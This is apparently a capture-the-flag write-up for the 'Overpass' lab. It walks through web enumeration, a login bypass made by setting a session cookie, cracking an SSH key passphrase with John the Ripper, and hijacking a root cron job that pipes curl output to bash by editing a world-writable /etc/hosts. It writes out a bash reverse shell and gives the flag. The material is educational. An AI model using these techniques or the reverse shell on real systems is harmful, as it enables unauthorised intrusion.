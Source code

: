 # Overpass - Easy

**IP : 10.10.137.51**

## Enumeration

### nmap - `nmap 10.10.137.51 -oN nmap-initial` 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

### Manual scrolling through web-page

**Home page**

**`Your passwords are protected using Military Grade encryption.`**

Seems fishy.

Going through source page for web page we get this:

`<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->`

Hmmm....It's **ceaser** ain't it?

**About us**

```
Ninja - Lead Developer
Pars - Shibe Enthusiast and Emotional Support Animal Manager
Szymex - Head Of Security
Bee - Chief Drinking Water Coordinator
MuirlandOracle - Cryptography Consultant
```
Maybe some usernames... well gonna find out soon

### gobuster - `gobuster dir -u http://10.10.137.51/ --wordlist ../common_wl.txt| tee gobuster-scan`

```
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]    
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]      
/index.html           (Status: 301) [Size: 0] [--> ./]        

```

**/admin** gotta check that.

Dummy data for sending login data through /admin page. Got this **/api/login** using **web dev tools** on firefox.

`curl -X POST http://10.10.137.51/api/login -d "username: 'admin', password: 'admin'"`

Tried some SQLi payloads. Looks like SQLi is not an option here....

Let's check the source code for this admin page.... Some JavaScript **/login.js** is being used. Let's see there.. so its sending data to **/api/login** we already have that. It's also setting some cookie... What happens if I manually change it?... Well I got login in!

`
Cookie_name: SessionToken
Cookie_Value: 1
`

How did I know it was 1.. well 0/1 usually stand for TRUE in most programming languages. The creators of this so called password vault are programmers... maybe they return 0 or 1. It was a total shot in dark I know.. but it worked... there's no harm (*atleast not for me :)* ).


We got ourselves in and a **ssh key for user james**. Saving it as james_key and running **ssh2john** so that john can find a key for it.

`python ssh2john james_key > hash`

Running **john the ripper** we get the passphrase: 

**NOTE TO SELF: IMPORTANT REMEMBER** `--wordlist=<dictionary_file>` **it should be as it is. It cannot be like** `--wordlist <dictionary_file>` *John is ruthless* 

`john hash --wordlist=rockyou.txt` 

**`Passphrase: james13`**

Let's login using ssh now.

`ssh -i james_key james@10.10.137.51`

We are in and we got outselves a **user.txt** file.

Running **LinPEAS**

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

`/etc/hosts is world writable`

Using the above combination we can get ourselves a reverse shell as root. Changing the IP for *overpass.thm* in /etc/hosts to out machine IP and running a server with exact directories.

Making a file **buildscript.sh** with following content will get us a reverse shell in a minute or so.

```
#!/bin/bash
bash -i >& /dev/tcp/<my_machine_ip>/<port> 0>&1
```


root.txt: thm{7f336f8c359dbac18d54fdd64ea753bb}

